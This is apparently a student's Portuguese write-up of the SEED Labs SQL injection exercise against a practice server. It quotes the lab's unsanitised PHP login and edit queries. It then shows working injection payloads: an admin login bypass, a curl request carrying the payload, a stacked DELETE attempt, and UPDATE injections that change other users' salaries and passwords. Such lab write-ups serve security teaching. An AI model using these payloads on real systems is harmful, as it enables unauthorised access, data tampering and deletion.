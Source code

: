 # Semana 8 - SQL Injection Attack

## Task 1 - Get Familiar with SQL Statements

Após correr `show tables` no terminal do `mysql`, conseguimos observar que há 1 tabelas: **credential**<br>
Portanto, se quisermos ver todas as entries da tabela **credential**, podemos fazer:

```sql
SELECT * FROM credential;
```

O resultado é o seguinte:

![image](Semana_8/images/image.png)

Alternativamente, como o que é pedido é especificamente para o utilizador **Alice**, podemos fazer:

```sql
SELECT * FROM credential WHERE Name = "Alice";
```


## Task 2 - SQL Injection Attack on SELECT Statement

### Task 2.1 - SQL Injection Attack from webpage

Para autenticar um utilizador, é utilizado o seguinte código no ficheiro `unsafe_home.php`:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

Como podemos observar, os parâmetros não são sanitizados, o que cria uma vulnerabilidade de **SQL Injection**.<br>
Devido a esta vulnerabilidade, como sabemos que o user da conta administrativa tem username `admin`, então podemos dar login com os seguintes dados

![image](Semana_8/images/image2.png)

Após submeter os dados, a seguinte query será realizada pelo servidor:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= 'admin'# and Password='$hashed_pwd'";
```

Com isto, conseguimos ser autenticados na conta do **admin**, mesmo sem saber a password.

![image](Semana_8/images/image3.png)


### Task 2.2 - SQL Injection Attack from command line

Esta task é semelhante à anterior, mas pela command line, ou seja, temos que mandar um request utilizando o comando `curl`.<br>

Para fazer isso, inserimos o seguinte comando no terminal:

`curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="`

Neste caso, como precisamos de escapar o caracter `'` e `#` eles são representados com `%27` e `%23`, respetivamente. 

Isto vai fazer com que o servidor faça a mesma query à base de dados que fez na task anterior e temos acesso ao código html da página com a tabela **credential**.

![image](Semana_8/images/image4.png)

### Task 2.3 - Append a new SQL statement

Para tentar tornar um SQL statement em 2, podemos inserir os seguintes dados no login:

`admin'; DELETE * FROM credential; #`

Isto vai eliminar todas as entries na tabela **credential**.<br>
No entanto, quando tentamos fazer isto, recebemos a seguinte mensagem:

![image](Semana_8/images/image5.png)

Após ler a documentação, descobrimos que, para funcionar, era necessário usar-se a função `multi_query()`.

![image](Semana_8/images/image6.png)

Como é utilizada a função `query()`, o nosso ataque que tenta tornar 1 SQL statements em 2 não funciona.

## Task 3 - SQL Injection Attack on UPDATE Statement

### Task 3.1 - Modify your own salary

Após olhar para o ficheiro `unsafe_edit_backend`, notamos que, tal como para fazer login, a query à base de dados não sanitiza os parâmetros, portanto está vulnerável a ataques de SQL Injection.<br>
Embora no site não tenhamos a opção para editar o salário, com um ataque de SQL Injection isso é possível da seguinte forma:

![image](Semana_8/images/image7.png)

Isto seria equivalente a correr a seguinte query:

```php
$sql = "UPDATE credential SET nickname='',email='',address='Rua da Cedofeita', salary='1000000',Password='', PhoneNumber='' where ID=$id;"
```

No final, o perfil da Alice ficou assim:

![image](Semana_8/images/image8.png)

Como podemos observar, o salário da Alice agora é 1000000.

### Task 3.2 - Modify other people’ salary

Para mudar o salário de outra pessoa, podemos fazer um ataque semelhante ao que fizemos na task anterior, exceto que também temos que adicionar uma condição para o ID de outro utilizador.<br>

![image](Semana_8/images/image9.png)

Isto seria equivalente a correr a seguinte query:

```php
$sql = "UPDATE credential SET nickname='',email='',address='',Password='', PhoneNumber='1',salary='1' where ID=2 #where ID=$id;"
```

Após fazer `select * from credential` no terminal, conseguimos observar que o utilizador com ID = 2, o **Boby**, tem agora Phone Number = 1 e Salary = 1.

![image](Semana_8/images/image10.png)

### Task 3.3 - Modify other people’ password

Para mudar a palavra passe de outra pessoa, usamos uma técnica semelhante às anteriores, mas agora alteramos a password. Decidimos alterar a password do utilizador Boby (ID = 2) para `123`. 

![image](Semana_8/images/image11.png)

Após entrar no perfil do Boby, conseguimos ver que o Phone Number é 1

![image](Semana_8/images/image12.png)

Se formos à base de dados e fizermos `select * from credential` observamos o seguinte:

![image](Semana_8/images/image13.png)

Como podemos ver, a **password** do Boby é `40bd001563085fc35165329ea1ff5c5ecbdbbeef`, que é `123` depois de ser encriptado com criptografica sha1.
